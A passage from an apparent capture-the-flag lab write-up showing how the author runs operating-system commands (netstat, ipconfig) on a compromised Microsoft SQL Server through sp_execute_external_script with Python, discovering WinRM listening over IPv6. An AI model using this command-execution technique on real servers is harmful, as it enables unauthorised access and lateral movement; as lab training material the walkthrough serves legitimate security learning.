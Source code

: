 It took some time to piece everything together. Initially, I found that the host is listening on WinRM, TCP port 5985, for both IPv4 and IPv6 connections:

```bash
SQL (df  dbo@master)> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("netstat -ano");';
INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1004
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       4788
  TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:41433          0.0.0.0:0              LISTENING       4540
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       592
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1356
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       720
INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1860
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2508
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       720
  TCP    0.0.0.0:49672          0.0.0.0:0              LISTENING       712
  TCP    10.13.38.11:80         10.10.14.172:32772     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32782     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32794     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32798     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32806     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32822     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32828     TIME_WAIT       0
  TCP    10.13.38.11:80         10.10.14.172:32834     TIME_WAIT       0
..[snip]...
```

Although the initial `nmap` scan did not show the 5985 listening on IPV4, as seen above, we have winrm actively listening. To check further, I was required to get the IPV6 address of the machine using `ipconfig` in order for us to scan it using nmap to see if truly winrm is actively listening on the host.

```bash
SQL (df  dbo@master)> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("ipconfig");';
INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 

Windows IP Configuration

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::1001
   IPv6 Address. . . . . . . . . . . : dead:beef::7ef0:e82c:6a2:1f2f
   Link-local IPv6 Address . . . . . : fe80::8d5a:640b:98c7:f8de%8
   IPv4 Address. . . . . . . . . . . : 10.13.38.11
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : dead:beef::1
                                       fe80::250:56ff:feb0:8205%8
                                       10.13.38.2

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . : 
```